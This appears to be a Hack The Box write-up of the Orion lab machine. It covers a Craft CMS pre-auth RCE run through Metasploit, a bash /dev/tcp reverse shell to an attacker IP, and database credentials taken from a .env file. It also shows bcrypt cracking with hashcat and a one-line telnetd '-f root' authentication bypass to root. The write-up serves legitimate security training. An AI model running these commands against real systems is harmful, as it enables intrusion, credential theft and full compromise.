










# Orion HTB Machine

## Overview

This is my first ever post...


Orion was a valuable Hack The Box machine that helped me strengthen my approach to web and service enumeration and vulnerability exploitation. The main challenges involved **bypassing CSRF validation**, exploiting **Craft CMS**, and identifying and exploiting a vulnerability in **Telnetd**. During the enumeration of the default Craft CMS environment, I discovered information that exposed the **MySQL database**, from which I was able to obtain credentials that led to SSH access after cracking the password. Once logged in through SSH, I identified the vulnerable Telnetd service and used the vulnerability to perform a relatively straightforward **privilege escalation**, ultimately gaining root access and capturing the root flag.

One of my key takeaways from this machine was to pay close attention to the **versions of services and applications** discovered during enumeration and investigate whether known CVEs apply, as vulnerable versions can provide a path to remote code execution or privilege escalation. I also had a good opportunity to explore **PHP remote shell execution**, which strengthened my understanding of how web vulnerabilities can lead to shell access. Although I referred to the official walkthrough for some guidance, completing the machine significantly strengthened my confidence in solving HTB boxes and, more importantly, taught me where to start when I get stuck.

## Step-By-Step Walkthrough
### 1. ENUMERATION

The first step was to perform an Nmap scan to identify the open ports and services running on the target machine. The scan was performed using the following command:

```bash
nmap -sV {IP_Address}
```

The scan revealed two open ports: **port 80**, running HTTP, and **port 22**, running SSH.



When we try to access the web application using the target IP address, we encounter an **NXDOMAIN error**. This occurs because the machine is hosted in a private environment, and the hostname `orion.htb` is not registered in the public DNS.

To resolve this locally, we add a hostname-to-IP mapping in the `/etc/hosts` file using:

```bash
echo "{IP_Address} orion.htb" | sudo tee -a /etc/hosts
```

The `/etc/hosts` file contains local hostname-to-IP mappings and allows the system to resolve `orion.htb` to the target machine's IP address without relying on a public DNS server.

If the machine is restarted or assigned a new IP address, the existing `orion.htb` entry may need to be updated with the new IP address. This can be done by editing the `/etc/hosts` file, for example using:

```bash
sudo nano /etc/hosts
```

After adding the correct mapping, accessing `http://orion.htb` takes us to the **Orion web application homepage**.



## 2. WEB ENUMERATION

The next step was to use **FFUF (Fuzz Faster U Fool)** to discover hidden directories and endpoints in the web application.

Since the homepage already indicated that the application was powered by **Craft CMS**, we could make an educated guess that common Craft CMS endpoints, such as `/admin`, might be present.


The FFUF scan was performed using the following command:

```bash
ffuf -u http://orion.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directorylist-2.3-medium.txt
```

The scan successfully discovered an `/admin` endpoint.

Bingo!!

Navigating to `/admin` redirected us to:

```text
/admin/login
```



The login page also revealed the **Craft CMS version** being used by the application:

```text
Craft CMS 5.6.16
```

Identifying the exact software version was an important finding because it allowed us to investigate whether any **known vulnerabilities or CVEs** affected this version.

## 3. CRAFT CMS — CVE-2025-32432

After identifying that the target was running **Craft CMS 5.6.16**, I searched for known vulnerabilities affecting this version. This led to **CVE-2025-32432**, a critical unauthenticated remote code execution vulnerability affecting Craft CMS versions up to and including 5.6.16. The vulnerability was patched in version 5.6.17.

**References:**

* [CVE-2025-32432 — exploitDB](https://www.exploit-db.com/exploits/52525)
* [Craft CMS Security Advisory](https://craftcms.com/knowledge-base/craft-cms-cve-2025-32432)


The vulnerability exists in the image transformation functionality of Craft CMS. Improper handling of attacker-controlled input allows an unauthenticated attacker to reach an unsafe Yii object-instantiation path, which can ultimately result in **arbitrary PHP code execution**.

### 3.1 Understanding the Exploit

Before exploiting the vulnerability, I investigated how the exploit worked. The exploitation process involves obtaining the required session and CSRF-related information and then sending specially crafted requests to the vulnerable image transformation functionality.

The relevant information included:

* PHP session cookie
* CSRF token
* `X-CSRF-Token`

The vulnerability could be tested manually by obtaining these values and sending the appropriate POST request. However, for this machine, I used **Metasploit** to simplify the exploitation process.

### 3.2 Updating and Starting Metasploit

Since CVE-2025-32432 is a relatively recent vulnerability, I first made sure that my Metasploit installation was up to date.

```bash
sudo apt update
sudo apt install metasploit-framework
```

I then started the Metasploit console:

```bash
msfconsole
```

I searched for the CVE:

```text
search cve:2025-32432
```

The corresponding exploit module was then selected:

```text
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

I checked the module information and available options:

```text
info
show options
```

### 3.3 Configuring the Exploit

I configured the target and listener options. Since the target was running a PHP-based Craft CMS application, I configured a PHP Meterpreter reverse HTTP payload:



We can verify the configuration:

```text
show options
```
Finally, I executed the exploit:

```text
run
```
If successful, this created a Meterpreter session on the target.


### 3.4 Getting a Bash Shell Using Netcat

Although the Meterpreter session was successfully established, the `php/meterpreter/reverse_http` payload communicates with the attacker through HTTP. Therefore, using the Meterpreter `shell` command did not provide the conventional interactive reverse shell that I wanted.

To obtain a normal Bash shell, I used **Netcat** as a listener on my attacking machine.

First, I started a Netcat listener:

```bash
nc -lvnp 4444
```

I then opened a command shell through the Meterpreter session:

```text
shell
```

From the target's shell, I initiated a Bash reverse connection back to my attacking machine:

```bash
meterpreter> bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'
```




The connection was received by the Netcat listener running on my machine.

The overall flow was:

```text
Meterpreter Reverse HTTP
        ↓
Meterpreter session
        ↓
      shell
        ↓
Bash reverse connection
        ↓
Netcat listener
        ↓
Interactive Bash shell
```

Once the connection was established, I verified the access using on my netcat listener:

```bash
whoami
id
```

### 3.5 Upgrading the Shell

The initial Bash shell was not fully interactive. If Python 3 was available on the target, I upgraded the shell using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This provided a more usable interactive Bash environment for further enumeration.

### 3.6 Result

The successful exploitation of **CVE-2025-32432** provided remote code execution on the target and allowed me to obtain shell access.

This was one of the most important stages of the machine because it demonstrated the value of identifying exact software versions during enumeration and checking those versions against known vulnerabilities.

My main takeaway from this stage was:

> **Whenever enumeration reveals a specific software version, check whether that version is affected by any known CVEs.**

A vulnerable version can provide a direct path to **remote code execution or further access**, making version enumeration an important part of the initial attack process.


## 4. DATABASE ENUMERATION & INITIAL ACCESS

After obtaining shell access to the target as `www-data`, the next step was to enumerate the Craft CMS installation for sensitive information and stored credentials.

### 4.1 Enumerating the Craft CMS Directory

While exploring the Craft CMS directory, I discovered a `.env` file containing configuration information:

```bash
www-data@orion:~/html/craft$ cat .env
```

The file contained several important configuration values, including the database credentials:

```text
# General settings
CRAFT_SECURITY_KEY=[REDACTED]
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=[REDACTED]

PRIMARY_SITE_URL=http://orion.htb/
```

The `.env` file exposed the **MySQL database credentials in plaintext**. This was an important finding because it allowed me to access the application's database directly.

### 4.2 Accessing the MySQL Database

Using the credentials obtained from the `.env` file, I connected to the `orion` database:

```bash
mysql -u root -p orion
```

After entering the discovered database password, I successfully obtained access to the MariaDB database:

```text
MariaDB [orion]>
```

I then began enumerating the available tables to identify any sensitive information stored by the Craft CMS application.

### 4.3 Finding User Credentials

During the database enumeration, I discovered a `users` table containing information about the application's users.

I queried the table using:

```sql
SELECT * FROM users;
```

The table contained an account associated with **Adam**, including a password hash:

```text
username: adam
email: adam@orion.htb
password: $2y$13$[REDACTED]
```





The password field was stored using **bcrypt**, as indicated by the `$2y$` prefix.

### 4.4 Cracking the Password Hash

Since the hash was in bcrypt format, I used **Hashcat** to attempt to recover the original password using the `rockyou.txt` wordlist.

The relevant Hashcat mode for bcrypt is `3200`:

```bash
hashcat '<HASH>' /usr/share/wordlists/rockyou.txt -m 3200 --show
```

The hash was successfully cracked, revealing the password: darkangel
This gave me valid credentials for the `adam` user.

### 4.5 SSH Access

Using the recovered credentials, I attempted to authenticate to the machine through SSH on the new terminal:

```bash
ssh adam@orion.htb
```

The login was successful, giving me a shell as the `adam` user.
I verified my access with:

```bash
id
```

The output confirmed that I was logged in as:

```text
uid=1000(adam) gid=1000(adam) groups=1000(adam)
```

### 4.6 Capturing the User Flag

After obtaining access as `adam`, I checked the user's home directory and found the user flag:

```bash
cat user.txt
```

At this point, I had successfully progressed from **web application access → database credentials → password hash → cracked credentials → SSH access as Adam**.
The next objective was to enumerate the system as `adam` and identify a path toward **privilege escalation and root access**.

## 5. PRIVILEGE ESCALATION — TELNETD

The privilege escalation stage was more challenging than the initial access. I needed some assistance from the official Hack The Box walkthrough to understand the intended attack path, but this stage was particularly useful because it introduced me to exploiting a **locally accessible vulnerable service**.

### 5.1 Enumerating Local Services

After obtaining SSH access as `adam`, I continued enumerating the system for services that were not exposed externally.

I used:

```
netstat -tulnp
```

The output revealed that **port 23/TCP** was listening locally.




Port 23 is traditionally used by **Telnet**, a legacy protocol that provides command-line remote access. Telnet is generally considered insecure because its communication is unencrypted.

The important observation here was that port 23 was **not exposed externally**, but was accessible from the machine itself. This meant that I could potentially interact with the service from my existing SSH session.

### 5.2 Identifying the Telnet Version

I then checked the installed Telnet version:

```
telnet --version
```

The target was running **GNU InetUtils 2.7**:

```
telnet (GNU inetutils) 2.7
```

Since a specific version was identified, I searched for known vulnerabilities affecting this version. This led to:

**CVE-2026-24061 — GNU InetUtils telnetd authentication bypass**

[CVE-2026-24061 — exploitDB](https://www.exploit-db.com/exploits/52524)

### 5.3 Understanding CVE-2026-24061

CVE-2026-24061 is an **argument injection vulnerability in GNU InetUtils `telnetd`**.

The vulnerability occurs during Telnet protocol negotiation involving the `NEW_ENVIRON` option. The `USER` environment variable supplied by the client is passed to the underlying `/usr/bin/login` program without sufficient sanitization.

By manipulating this value, an attacker can inject the `-f root` argument. The `login` program interprets this option as requesting authentication as the specified user without performing the normal password authentication.

In this case, the injected argument causes the session to be treated as an authenticated **root** session, resulting in a root shell without requiring the root password.

### 5.4 Exploiting the Authentication Bypass

Since the Telnet service was only listening locally, I connected to it through `127.0.0.1`.

The exploit can be triggered with:

```
USER="-f root" telnet -a 127.0.0.1
```




After the connection was established, I was provided with a root shell.

I verified my privileges using:

```
id
```

The output confirmed:

```
uid=0(root) gid=0(root) groups=0(root)
```

I had successfully escalated from the `adam` user to **root**.

### 5.5 Capturing the Root Flag

With root access obtained, I read the root flag:

```
cat /root/root.txt
```

This completed the privilege escalation and gave me full control of the machine.

---

## 6. TAKEAWAYS

Orion was a particularly useful machine for strengthening my enumeration and vulnerability-identification methodology.

The biggest lessons I took from the machine were:

* **Always enumerate locally after gaining initial access.** A service that is not externally exposed can still provide a privilege-escalation path.
* **Pay attention to service versions.** Identifying GNU InetUtils 2.7 led directly to researching CVE-2026-24061.
* **Understand what a CVE actually does.** Rather than simply running an exploit, understanding the argument-injection mechanism made it clear why the `USER="-f root"` manipulation resulted in authentication bypass.
* **Web application vulnerabilities can lead to system-level access.** The initial Craft CMS vulnerability provided the foothold from which the rest of the machine could be explored.
* **Getting stuck is part of the process.** I used the official walkthrough to understand the privilege-escalation path. The important outcome was learning what to look for next time: local services, versions, and applicable CVEs.

Overall, Orion strengthened my confidence in approaching HTB machines independently. I may still need hints when I encounter unfamiliar techniques, but I now have a better understanding of **where to start and what to investigate when I get stuck**.


